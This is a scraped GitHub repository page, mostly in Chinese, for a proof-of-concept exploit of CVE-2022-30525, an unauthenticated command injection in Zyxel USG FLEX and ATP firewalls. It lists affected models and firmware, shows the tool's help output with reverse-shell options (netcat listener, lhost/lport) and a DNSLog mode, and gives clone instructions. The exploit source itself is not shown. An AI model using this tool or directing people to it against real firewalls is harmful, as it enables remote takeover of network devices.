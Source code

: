 # CVE-2022-30525

CVE-2022-30525（Zxyel 防火墙命令注入）的概念证明漏洞利用

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/k0sf](https://github.com/k0sf) |
| Url      | [https://github.com/k0sf/CVE-2022-30525](https://github.com/k0sf/CVE-2022-30525)                                               |
| Stars    | 3                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-30525

Zyxel 防火墙未经身份验证的远程命令注入漏洞

## 影响组件
USG FLEX 100, 100W, 200, 500, 700 USG20-VPN, USG20W-VPN ATP 100, 200, 500, 700, 800

## 固件版本
ZLD5.00 thru ZLD5.21 Patch 1 ZLD5.10 thru ZLD5.21 Patch 1 ZLD5.10 thru ZLD5.21 Patch 


## help

```shell
[root@localhost ~]# ./CVE-2022-30525 -h
NAME:
   CVE-2022-30525 - Zyxel Firewall Command Injection (CVE-2022-30525)

USAGE:
   CVE-2022-30525 [global options] command [command options] [arguments...]

COMMANDS:
   nc         use netcat listener
   dnslog, d  USE DNSLog
   help, h    Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help (default: false)


[root@localhost ~]# ./CVE-2022-30525 nc -h
NAME:
   CVE-2022-30525 nc - use netcat listener

USAGE:
   CVE-2022-30525 nc [command options] [arguments...]

OPTIONS:
   --rhost value     The remote address to exploit
   --rport value     The remote port to exploit (default: 443)
   --lhost value     The local address to connect back to
   --lport value     The local port to connect back to (default: 1270)
   --protocol value  The protocol handler to use (default: https://)
   --ncpath value    The path to nc (default: /usr/bin/nc)
   --help, -h        show help (default: false)


[root@localhost ~]# ./CVE-2022-30525 dnslog "http://192.168.0.123"

```


## Get the content

```
git clone https://github.com/k0sf/CVE-2022-30525
cd CVE-2022-30525
```

{% embed url="https://github.com/k0sf/CVE-2022-30525" %}

<figure><img src="https://avatars.githubusercontent.com/u/13890845?v=4" alt=""><figcaption><p>k0sf</p></figcaption></figure>
